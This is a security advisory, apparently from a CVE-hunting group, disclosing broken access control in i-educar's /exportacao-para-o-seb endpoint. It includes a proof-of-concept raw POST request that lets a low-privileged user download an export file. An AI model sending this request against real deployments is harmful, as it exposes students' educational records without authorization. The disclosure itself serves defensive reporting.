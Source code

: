 # Broken Access Control  in `/exportacao-para-o-seb` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/exportacao-para-o-seb` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `POST /exportacao-para-o-seb`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.
<img width="1843" height="533" alt="Pasted image 20250821190942" src="https://github.com/user-attachments/assets/a2f1c4a8-6bcd-4d7a-a847-828b52d44ce8" />

<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/8e39d5e0-9a02-4eef-a462-e9aae51eba42" />

    
2. Send the following request::

```
POST /exportacao-para-o-seb HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/exportacao-para-o-seb
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

ano=2025&ref_cod_instituicao=1&ref_cod_escola=4
```
    
3. We could observe that a file is attached to the response. This user shouldn't do this request.

<img width="1434" height="538" alt="Pasted image 20250821191236" src="https://github.com/user-attachments/assets/b2146be9-5a52-4317-b24b-9ecb04939b54" />

---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

[CVE-2025-10013](https://www.cve.org/CVERecord?id=CVE-2025-10013)

[VulnDB-322738](https://vuldb.com/?id.322738)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
